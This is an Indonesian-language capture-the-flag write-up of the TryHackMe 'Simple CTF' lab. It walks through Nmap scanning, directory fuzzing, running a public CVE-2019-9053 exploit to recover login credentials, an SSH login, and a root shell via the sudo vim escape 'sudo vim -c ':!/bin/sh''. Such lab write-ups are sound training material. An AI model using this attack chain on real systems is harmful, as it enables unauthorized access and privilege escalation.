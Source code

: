 ```yaml
---
title: "Tryhackme - Simple CTF WriteUps"
date: 2022-12-14 13:00:00 +07:00
categories: [WriteUps]
tags: [ctf, Tryhackme, pentest, writeups]
image: 
---
```


# Tryhackme - Simple CTF WriteUps

Pertama kali kita scanning Port yang terbuka dengan Nmap “Nmap -sC -sV ‘Target’”. Setelah menscan kita dapat melihat Port terbuka yaitu port 21, 80, dan 2222.
```
$ nmap -sC -sV 10.10.98.22 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 22:54 PST
Nmap scan report for 10.10.98.22
Host is up (0.26s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.92 seconds
```
Disini kita mencoba melihat tampilan website pada port 80. Dan kita mendapatkan tampilan Apache2.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005431703031868/image.png)

Sekarang kita mencoba fuzzing directory dengan dirsearch dan kita mendapatkan: ````/index.html```, ```/robots.txt, /simple```.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005736247230514/image.png)

Kita coba membuka halaman baru dan menambahkan directory ```/simple```. Setelah kita searching secara dalam kita menemukan Vulnerability CVE-2019-9053 dan exploitnya saya dapatkan dari [github](https://github.com/e-renna/CVE-2019-9053).

![image](https://media.discordapp.net/attachments/740245586095112242/1055006129509384222/image.png)

Disini kita mencoba menjalankan dan exploit dengan exploit yang kita dapatkan tadi. Dengan ini kita bisa melihat user, password, dan email yang di hash dengan md5. Dan kita mendapatkan 
```
Username: mitch
Password: secret
Email: admin@admin.com
```
![image](https://media.discordapp.net/attachments/740245586095112242/1055006770373853184/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055006940461281300/image.png)

Setelah kita mendapatkanya kita coba untuk login pada SSH port 2222 yang kita dapatkan dari scanning network dari Nmap tadi. Dan berhasil login, selanjutnya kita akan local privileges dengan cara melihat sudoers ```sudo -l``` untuk melihatnya dan kita dapat menjalankan ```/usr/bin/vim```

![image](https://media.discordapp.net/attachments/740245586095112242/1055007310969315409/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055007445166084197/image.png)

Disini kita mencoba exploit dengan payload yang didapat dari [GTFobins](https://gtfobins.github.io/gtfobins/vim/) yang payload ini: 
```
vim -c ':!/bin/sh' 
```
dapat dijalankan secara langsung dengan root untuk memanggil bash pada root.
![image](https://media.discordapp.net/attachments/740245586095112242/1055007970355859566/image.png)

Selanjutnya kita eksekusi dengan payload ini dan menambahkan sudo didepan payload ```sudo vim -c ‘:!/bin/sh’```. Dan berhasil kita telah mendapatkan root access pada server ini.

![image](https://media.discordapp.net/attachments/740245586095112242/1055008241555357736/image.png)
